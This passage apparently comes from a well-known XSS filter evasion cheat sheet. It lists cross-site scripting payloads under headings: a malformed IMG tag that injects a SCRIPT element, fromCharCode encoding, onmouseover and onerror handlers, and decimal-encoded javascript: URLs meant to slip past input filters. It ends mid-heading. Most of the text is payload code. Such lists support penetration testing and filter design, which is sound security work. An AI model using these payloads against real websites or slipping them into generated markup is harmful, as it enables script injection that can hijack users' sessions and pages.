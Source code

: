 Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

`<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>`

### fromCharCode

If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

`<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>`

### Default SRC Tag to Get Past Filters that Check SRC Domain

This will bypass most SRC domain filters. Inserting JavaScript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

`<IMG SRC=# onmouseover="alert('xxs')">`

### Default SRC Tag by Leaving it Empty

`<IMG SRC= onmouseover="alert('xxs')">`

### Default SRC Tag by Leaving it out Entirely

`<IMG onmouseover="alert('xxs')">`

### On Error Alert

`<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`

### IMG onerror and JavaScript Alert Encode

`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`

### Decimal HTML Character References

All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>`

### Decimal HTML Character References Without Trailing Semicolons
